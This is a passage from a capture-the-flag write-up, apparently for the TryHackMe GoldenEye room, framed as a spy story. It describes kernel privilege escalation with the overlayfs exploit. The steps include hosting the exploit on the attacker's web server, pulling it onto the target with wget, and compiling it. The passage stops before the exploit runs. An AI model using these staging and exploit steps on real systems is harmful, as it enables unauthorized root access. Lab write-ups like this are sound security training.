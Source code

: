 ## Scene 4: Boris's demise (Exploitation)

### Part 1: Prepare the tool

Dr.doak try to deliver the [linuxpricchecker](https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123) and [LinEnum](https://github.com/rebootuser/LinEnum) tool to me to locate the access code. However, the tool is destroyed on the way of delivering. Guess I have to manually get the code.

### Part 2: Frame version

By checking the frame version, I got the following result.

![uname](/assets/images/THM/2020-08-10-goldeneye/34.png)

### Part 3: Exploit the frame

After that, I got a message from Dr.doak where this machine is vulnerable to [overlayfs](https://www.exploit-db.com/exploits/37292) exploit. First and foremost, I need to create the source file and upload it to the frame. This is the procedure from Dr.doak.

- Step1: Copy the ofs code in the intelligent watch (/var/www/html)
- Step2: Start the apache2 server (service apache2 start)
- Step3: Force the frame to download the code into /tmp directory. (wget http://<Machine IP>/ofs.c)
- Step4: In the frame, compile the code using gcc (gcc ofs.c -o ofs)

![gcc problem](/assets/images/THM/2020-08-10-goldeneye/35.png)

On no, the gcc compiler is not found within the frame and the GoldenEye weapon will be launch in 5 min. What to do? How about cc?

### Part 4: The final countdown

But before that, I need to change this code (gcc)

![gcc change](/assets/images/THM/2020-08-10-goldeneye/36.png)
